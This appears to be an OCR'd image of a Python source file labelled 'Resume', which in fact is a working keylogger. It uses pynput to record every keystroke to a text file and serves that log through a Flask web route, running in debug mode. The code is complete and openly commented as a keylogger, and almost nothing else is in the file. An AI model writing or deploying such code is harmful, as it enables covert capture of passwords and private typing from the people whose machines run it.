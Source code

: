 # Resume-
from flask import Flask, render_template
from pynput import keyboard

app = Flask(__name__)

# Keylogger functions
def keypressed(key):
    with open("keyfile1.txt", 'a') as logkey:
        try:
            char = key.char
            if char:
                logkey.write(char)
        except AttributeError:
            if key == keyboard.Key.space:
                logkey.write(' ')
            elif key == keyboard.Key.enter:
                logkey.write('\n')
            elif key == keyboard.Key.tab:
                logkey.write('\t')
            else:
                logkey.write('[' + str(key) + ']')

def keyreleased(key):
    if key == keyboard.Key.esc:
        return False  # Stop listener

# Run the keylogger listener when starting the server
def start_keylogger():
    listener = keyboard.Listener(on_press=keypressed, on_release=keyreleased)
    listener.start()

# Define the Flask route to serve the HTML page
@app.route('/')
def home():
    return render_template('index.html')  # Serves your HTML file

@app.route('/get-keys')
def get_keys():
    try:
        with open("keyfile1.txt", 'r') as logkey:
            data = logkey.read()
        return data.replace('\n', '<br>')  # Convert newlines to <br> for HTML display
    except FileNotFoundError:
        return "No keys logged yet."

if __name__ == "__main__":
    start_keylogger()  # Start the keylogger
    app.run(debug=True, port=5001)  #
